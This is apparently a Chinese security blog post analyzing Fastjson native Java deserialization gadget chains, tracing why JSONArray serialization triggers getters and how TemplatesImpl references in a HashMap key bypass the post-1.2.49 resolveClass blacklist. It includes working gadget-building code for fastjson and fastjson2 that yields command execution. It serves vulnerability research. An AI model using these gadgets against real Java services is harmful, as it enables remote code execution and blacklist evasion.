# Fastjson

## 0x00 fastjon 触发 getter

fastjson 是一套开源解析库，可以把 Java 对象转化成 JSON 形式来表示，通过 `JSON.parseObject()、JSON.parse()` 反序列化 json 字符串，对 fastjson 漏洞比较熟悉的话就知道反序列化时可以通过 @type 指定类，在反序列化时通过 `JSON.parse()` 触发 setter ，通过 `JSON.parseObject()` 触发 getter、setter 实现反序列化攻击。

`JSON.toJSONString()` 方法在将对象序列化为 json 字符串时，也同样会触发 getter 方法，那么我们很熟悉可以通过 `TemplatesImpl.getOutputProperties()` 实现字节码的任意加载。

## 0x01 组合调用链

在 fastjson 中  `JSONArray` 和 `JSONObject` 对抽象类 JSON 进行了实现，并实现了 `Serializable` 接口，但是很可惜并不存在 readObject() 方法不能作为 kick-off，所以我们还要继续寻找调用了 `toJSONString()` 的方法。而在 `com.alibaba.fastjson.JSON` 正好有一个 `toString()` 方法调用了 `toJSONString()` 。


接下来寻找一个 `toString()` 方法来触发最终的 getter ，直接用 `BadAttributeValueExpException` 的 val 字段来触发，所以构造出的 gadget 如下：

```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);

    BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(bd, "val", jsonArray);
    return bd;
}
```

## 0x02 补充 为什么会触发 fastjson 的 getter

按照前面 gadget 构建思路，我们自己定义了一个对象，发现无论如何都无法通过 `toString()` 来触发 getter

```java
User user = new User("user", "pass", "msg");

System.out.println("-- JSONObject.toJSONString() --");
String json = JSON.toJSONString(user, SerializerFeature.WriteClassName);
System.out.println(json);
System.out.println("-- JSONObject.toJSON() --");
JSON.toJSON(user);
System.out.println("-- JSON.parse() --");
JSON.parse(json);
System.out.println("-- JSON.parseObject() --");
Object obj = JSON.parseObject(json);
System.out.println("-- JSONObject.toString() --");
obj.toString();
```

跟进后发现通过 `getObjectWriter()` 获取到的是一个 `MapSerializer` 



`MapSerializer.write()` 这个的作用也比较简单，`entrySet` 对 map 进行遍历，这个过程并没有调用 getter 。



### getObjectWriter

而这个问题呢是因为通过 `getObjectWriter()` 获取的 `ObjectSerializer` 类型不一样，返回去看一下这个方法的执行逻辑。

在进入方法后首先从 serializers 中取是否有存在 clazz 的默认映射，serializers 在 SerializeConfig 构造方法时初始化如下。 



```java
put(Boolean.class, BooleanCodec.instance);
put(Character.class, CharacterCodec.instance);
put(Byte.class, IntegerCodec.instance);
put(Short.class, IntegerCodec.instance);
put(Integer.class, IntegerCodec.instance);
put(Long.class, LongCodec.instance);
put(Float.class, FloatCodec.instance);
put(Double.class, DoubleSerializer.instance);
put(BigDecimal.class, BigDecimalCodec.instance);
put(BigInteger.class, BigIntegerCodec.instance);
put(String.class, StringCodec.instance);
put(byte[].class, PrimitiveArraySerializer.instance);
put(short[].class, PrimitiveArraySerializer.instance);
put(int[].class, PrimitiveArraySerializer.instance);
put(long[].class, PrimitiveArraySerializer.instance);
put(float[].class, PrimitiveArraySerializer.instance);
put(double[].class, PrimitiveArraySerializer.instance);
put(boolean[].class, PrimitiveArraySerializer.instance);
put(char[].class, PrimitiveArraySerializer.instance);
put(Object[].class, ObjectArrayCodec.instance);
put(Class.class, MiscCodec.instance);

put(SimpleDateFormat.class, MiscCodec.instance);
put(Currency.class, new MiscCodec());
put(TimeZone.class, MiscCodec.instance);
put(InetAddress.class, MiscCodec.instance);
put(Inet4Address.class, MiscCodec.instance);
put(Inet6Address.class, MiscCodec.instance);
put(InetSocketAddress.class, MiscCodec.instance);
put(File.class, MiscCodec.instance);
put(Appendable.class, AppendableSerializer.instance);
put(StringBuffer.class, AppendableSerializer.instance);
put(StringBuilder.class, AppendableSerializer.instance);
put(Charset.class, ToStringSerializer.instance);
put(Pattern.class, ToStringSerializer.instance);
put(Locale.class, ToStringSerializer.instance);
put(URI.class, ToStringSerializer.instance);
put(URL.class, ToStringSerializer.instance);
put(UUID.class, ToStringSerializer.instance);

// atomic
put(AtomicBoolean.class, AtomicCodec.instance);
put(AtomicInteger.class, AtomicCodec.instance);
put(AtomicLong.class, AtomicCodec.instance);
put(AtomicReference.class, ReferenceCodec.instance);
put(AtomicIntegerArray.class, AtomicCodec.instance);
put(AtomicLongArray.class, AtomicCodec.instance);

put(WeakReference.class, ReferenceCodec.instance);
put(SoftReference.class, ReferenceCodec.instance);
```

在 writer 获取为空时，将根据 clazz 的类型构建相应的 ObjectSerializer 对象，到道理问题的解决思路就很明确了：

1. 选取一个能触发到 getter 的 ObjectSerializer
2. 按照序列化的规则构造一个符合条件的序列化对象



### ListSerializer

根据上文的思路，我们通过 ArrayList 封装后就能进入 ListSerializer 逻辑了。

```java
User user = new User("user", "pass", "msg");
System.out.println("++ JSONArray ++");
ArrayList arrayList = new ArrayList();
arrayList.add(user);
System.out.println("-- JSONArray.toJSONString() --");
String json2 = JSONArray.toJSONString(arrayList, SerializerFeature.WriteClassName);
System.out.println(json2);
System.out.println("-- JSON.parseObject() --");
Object obj = JSON.parse(json2);
System.out.println("-- toString --");
obj.toString();
```

定位到此处对类的属性进行提取，之后的流程就是 ASMDeserializer 的相关方法，关于 ASMDeserializer 这部分的内容可以参考 [Fastjson 踩“坑”记录和“深度”学习](https://xie.infoq.cn/article/dcb61126e58c23ff2cf4731c1) ，这里不深入展开，仅是对为什么用到 JSONArray 的一个补充分析。



## 0x03 1.2.49之后的改动

在 1.2.49 这个版本后 JSONArray 和 JSONObject 都实现了自己的 readObject() 方法，将反序列化委托给 `SecureObjectInputStream` 类，通过其重写的 `resolveClass()` 方法调用 `checkAutoType()` 实现黑名单检查。





### resolveClass() 应该这么写吗？

我们再来仔细看一下 fastjson 的处理方式，是先调用了 `JSONObject` 的
`readObject()` 后，再将 ObjectInputStream 传递给另一个自定义的 `SecureObjectInputStream` 判断是否为黑名单，之后还是返回到 `JSONObject` 的 `readObject()` 方法中通过 `secIn.defaultReadObject();` 实现整一个的反序列化。

所以这里我们可以简单的将处理逻辑抽象为

1. 已经通过默认 ObjectInputStream 调用过 readObject()
1. 通过一个类 if 条件判断，只不过是通过 resolveClass 方法

所以有一个连贯的思维方式，是否有办法绕过 resolveClass ? 第一步已经执行过反序列化了，即调用了 resolveClass() 处理过该对象，之后有办法忽略吗？引用第一个？

而 Y4tacker 师傅在第二篇 fastjson 原生反序列化的分析文章中介绍了一种方式，补齐了之前没能解决的思考。

### handled 处理机制

在 `java.io.ObjectInputStream.readObject0()` 方法中会根据字节数据的类型执行不同的处理，存在一些类型不会执行 `resolveClass` 检查的分支。



比如这里面的 `TC_NULL`、`TC_REFERENCE`、`TC_STRING`、`TC_LONGSTRING`、`TC_EXCEPTION`，我们选择 `TC_REFERENCE` 引用类型，进入 `readHandle()` 方法，看到从 handles 表中获取引用。



`handles` 是一个重要的概念，与对象引用和共享对象的序列化有关，为了避免重复序列化、反序列化相同的对象而引入该机制。当反序列化时遇到一个对象引用时（ `TC_REFERENCE` 标记），它会查找 `handles` 表，看是否已经反序列化了相同的对象。

在 Y4tacker 师傅的分析中说 `java.util.ArrayList` （其他的集合 Map、Set 同样适用）在执行 `writeObject()` 时最终会在 `java.io.ObjectOutputStream.writeObject0()` 方法向 handles 中写入对象，的确 handles 机制也用在序列化，但反序列化时与 `ObjectOutputStream` 无关，还需要继续分析。



反序列化一个 HashMap 对象先来看一下 `readObject0()` 的处理，第一步会先向 handles 中加入类结构的描述信息



之后进入 `readOrdinaryObject()` 方法处理一般对象



首先通过 `readClassDesc()` 方法读取类描述信息，再根据类描述信息创建对象，unshared 为 fasle 则共享对象引用。而 HashMap 的 `K key = (K) s.readObject();` 默认就会将该值设为 false。这也是解释为什么我们要把需要引用的 TemplatesImpl 对象放到 key。




```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);

    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);

    BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(bd, "val", jsonArray);

    HashMap hashMap = new HashMap();
    hashMap.put(templatesImpl, bd);
    return hashMap;
}
```

## 0x04 fastjson2

fastjson2 的构造类似

```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(badAttributeValueExpException, "val", jsonArray);
    // M1
    HashMap hashMap = new HashMap();
    hashMap.put(templatesImpl, badAttributeValueExpException);
    return hashMap;
}
```


**参考**

> https://paper.seebug.org/2055/
>
> https://paper.seebug.org/2067/

